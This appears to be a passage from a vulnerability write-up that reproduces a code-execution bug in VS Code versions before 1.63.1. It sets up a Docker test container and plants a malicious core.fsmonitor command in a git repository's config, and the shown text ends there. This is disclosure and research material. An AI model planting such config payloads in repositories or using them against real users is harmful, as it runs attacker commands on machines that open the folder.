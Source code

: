 ```plain
% wget 'https://raw.githubusercontent.com/jessfraz/dotfiles/master/etc/docker/seccomp/chrome.json'
--2021-08-13 10:49:50--  https://raw.githubusercontent.com/jessfraz/dotfiles/master/etc/docker/seccomp/chrome.json
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36373 (36K) [text/plain]
Saving to: ‘chrome.json’

chrome.json     100%[======>]  35.52K  --.-KB/s    in 0.003s

2021-08-13 10:49:50 (10.8 MB/s) - ‘chrome.json’ saved [36373/36373]

% jq '.["syscalls"] += [{"name": "statx", "action": "SCMP_ACT_ALLOW", "args": null}]' chrome.json > chrome_with_statx.json
```

Start the image as a container and pass X through to it:

```plain
% sudo -g docker docker run --rm -ti --env=DISPLAY --volume=/tmp/.X11-unix:/tmp/.X11-unix:ro --shm-size=8g --security-opt=seccomp:$(pwd)/chrome_with_statx.json --ipc=host justinsteven/vscode bash
```

Check to see that the installed version is <1.63.1:

```plain
user@bc05a20ade67:/$ code -v
1.59.0
379476f0e13988d90fab105c5c19e7abc8b1dea8
x64
```

Create an empty Git repo:

```plain
user@bc05a20ade67:/$ cd $(mktemp -d)

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ mkdir poc

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ git -C poc init
Initialized empty Git repository in /tmp/tmp.BQ45nvYKcU/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

user@bc05a20ade67:/tmp/tmp.BQ45nvYKcU$ cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```
